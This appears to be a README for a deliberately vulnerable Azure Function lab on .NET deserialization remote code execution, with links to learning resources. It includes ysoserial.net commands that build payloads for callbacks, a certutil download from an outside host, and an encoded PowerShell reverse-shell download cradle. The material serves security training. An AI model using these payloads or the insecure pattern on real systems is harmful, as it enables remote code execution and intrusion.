 ## DeserialKiller

Azure Function lab for .NET Deserialization RCE demonstration.

Adapted from this blog post which featured an MVC app, made it a one a click deploy

https://sekurity.dev/insecure-deserialization-using-binaryformatter-resulting-in-rce/

Included is "TriggerWarning.cs", it will log the last 10 requests in memory and display them back as a queue. Useful for debugging or catching a callback like Burp Collaborator I guess. Just create another function and paste in that code.

WARNING: DO NOT DEPLOY THIS TO AZURE. Should never run outside of a controlled environment. This is literally a an insecure azure application. Functions can (and in this case should) be run locally to develop them. Just run them both and craft your payloads. DO NOT DEPLOY THIS TO AZURE.

So you're going to deploy it to Azure. Kinda wanted to see if you give it access to a keyvault, can you figure out how to READ the keyvault from inside?  Deploy an AzureVM, isolate it to just your IP. Then go to the network settings of the deployed function app and isolate it with Network Security Groups to just that IP. Then see what you can do as the application.  

Plan to add other routes for other Deserialization labs, but for now, here are the bklog posts I'm going to be reading 

## .Net Deserialization Resources
https://medium.com/r3d-buck3t/insecure-deserialization-with-json-net-c70139af011a
https://knowledge-base.secureflag.com/vulnerabilities/unsafe_deserialization/unsafe_deserialization__net.html
https://book.hacktricks.xyz/pentesting-web/deserialization
https://book.hacktricks.xyz/pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net
https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter
https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-knowing-the-secret

## .Net Deserialziation White-Paper - JSON.net
https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf

## Initial Access payload generation and WDAC Bypass using .net Deserialization
https://labs.nettitude.com/blog/introducing-aladdin/
https://github.com/nettitude/Aladdin

## Ysoserial.Net Examples
https://github.com/pwntester/ysoserial.net

```powershell
#Send ping
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "ping -n 5 10.10.14.44" -o base64

#Timing
#I tried using ping and timeout but there wasn't any difference in the response timing from the web server

#DNS/HTTP request
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "nslookup sb7jkgm6onw1ymw0867mzm2r0i68ux.burpcollaborator.net" -o base64
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "certutil -urlcache -split -f http://rfaqfsze4tl7hhkt5jtp53a1fsli97.burpcollaborator.net/a a" -o base64

#Reverse shell
#Create shell command in linux
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.44/shell.ps1')" | iconv  -t UTF-16LE | base64 -w0
#Create exploit using the created B64 shellcode
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQANAAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=" -o base64
```

## Web Lab - Portswigger Deserializtion
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization